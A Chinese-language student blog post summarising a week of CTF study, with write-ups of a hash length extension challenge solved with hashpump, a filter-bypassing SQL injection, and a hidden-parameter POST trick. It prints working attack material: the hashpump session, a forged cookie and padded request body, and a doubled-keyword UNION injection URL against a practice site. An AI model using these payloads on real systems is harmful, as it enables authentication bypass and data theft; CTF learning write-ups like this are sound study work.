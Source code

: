 ```yaml
---
layout: post
title: "第十二周总结"
date:  2017-05-14 14:58:44
description: "周总结"
tag: 总结
---
```



# 第十二周总结

### 0x00 本周所学  
1.了解hash长度攻击    
2.安装ubuntu和hashpump（没错这次装东西又遇到了奇怪的问题但已解决）    
3..git文件泄露，注释脚本    
4.ISCC的web和实验吧上的web
5.sqlmap基本了解  
6.菜刀的简单使用（做的web题没连上，代码传上去之后没被解析T_T，还在继续做）    
### 0x01 本周心得   
菜得不想说话...

### 0x02 部分题目记录
#### hash200    
这题得益于P神的一篇关于hash长度攻击的博客。按照博客上的讲述，百度并安装了hashpump（安装过程稍有曲折唉），具体过程如下：  
01.截包找值         

```
Cookie: sample-hash=be7413992c7e8541aa530688ddbbcc00    
这里md5($secret."adminadmin")=be7413992c7e8541aa530688ddbbcc00
```

02.稍微整理下我们已经知道的：

```
$secret是密文，长度为15，如果再算上后面第一个admin，长度就是20
而数据是admin
签名（哈希值）是be7413992c7e8541aa530688ddbbcc00
```
  
02.将截获的值结合网页源代码放进hashpump跑一下   

```
wreckingball@wreckingball-virtual-machine:~$ hashpump
Input Signature: be7413992c7e8541aa530688ddbbcc00
Input Data: admin
Input Key Length: 20
Input Data to Add: doge
cc28c70b200c7f4e01383dcc11d75e5b
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\x00\x00\x00\x00\x00\x00\x00doge
```

03.其中输出第一行的字符串一个是新的签名，把它设置到cookies的getmein里，并且把后面的几行十六进制字符串里面的反斜杠和x换成%以post方式提交，getflag~  

request:    
```
POST /hash/ HTTP/1.1
Host: 192.168.211.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Cookie: getmein=cc28c70b200c7f4e01383dcc11d75e5b
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&password=admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c8%00%00%00%00%00%00%00doge
```
 
 
response:   
```
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Wed, 10 May 2017 15:34:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 92

Congratulations! You are a registered user.
The flag is SKCTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
#### 最简单的注入's  
又在实验吧上把这题做了一遍，发现了另一种姿势：在过滤了关键字后可以尝试着重复输入的方法去提交，比如：    

```
http://ctf5.shiyanbar.com/423/web/index.php?id=1' unionunion  selectselect  flag fromfrom  flag wherewhere '1'='1
```
得到以下：  
```
ID: 1' union select flag from flag where'1'='1
name: baloteli

ID: 1' union select flag from flag where'1'='1
name: flag{Y0u_@r3_5O_dAmn_90Od}
```

#### Web签到题，来和我换flag啊！100  
其实挺简单的吧。查看源代码发现用POST方法，然而不知道究竟该post啥，抓包看到hiddenflag变量和&符号，分别让他们等于f1ag，flag就给你啦  

```
hiddenflag=f1ag&flag=f1ag&FLAG=f1ag
```
